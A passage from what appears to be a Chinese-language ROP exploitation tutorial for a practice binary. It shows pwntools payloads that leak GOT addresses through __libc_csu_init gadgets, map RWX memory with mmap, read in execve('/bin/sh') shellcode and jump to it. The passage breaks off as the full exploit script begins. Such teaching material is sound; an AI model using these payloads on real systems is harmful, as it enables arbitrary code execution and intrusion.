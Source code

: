     
    
    #!python
    #rdi=  edi = r13,  rsi = r14, rdx = r15 
    #write(rdi=1, rsi=write.got, rdx=4)
    payload1 =  "\x00"*136
    payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
    payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
    payload1 += "\x00"*56
    payload1 += p64(main)
    
    #rdi=  edi = r13,  rsi = r14, rdx = r15 
    #write(rdi=1, rsi=linker_point, rdx=4)
    payload2 =  "\x00"*136
    payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
    payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
    payload2 += "\x00"*56
    payload2 += p64(main)
    

随后就可以根据偏移量和泄露的地址计算出其他gadgets的地址。

    
    
    #!python
    shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
                  "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
                  "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )
    
    shellcode_addr = 0xbeef0000
    
    #mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
    payload3 =  "\x00"*136
    payload3 += p64(pop_rax_ret) + p64(mmap_addr)
    payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0)
    
    #read(rdi=0, rsi=shellcode_addr, rdx=1024)
    payload3 += p64(pop_rax_ret) + p64(plt_read)
    payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)
    
    payload3 += p64(shellcode_addr)
    

然后我们利用`_dl_runtime_resolve`里的通用gadgets调用`mmap(rdi=shellcode_addr, rsi=1024,rdx=7, rcx=34, r8=0, r9=0)`,开辟一段RWX的内存在`0xbeef0000`处。随后我们使用`read(rdi=0,rsi=shellcode_addr, rdx=1024)`,把我们想要执行的shellcode读入到`0xbeef0000`这段内存中。最后再将指针跳转到shellcode处就可执行我们想要执行的任意代码了。

完整的exp8.py代码如下:

    
    
    #!python
    #!/usr/bin/env python
    frompwn import *    
    
    elf = ELF('level5')
    libc = ELF('libc.so.6') 
    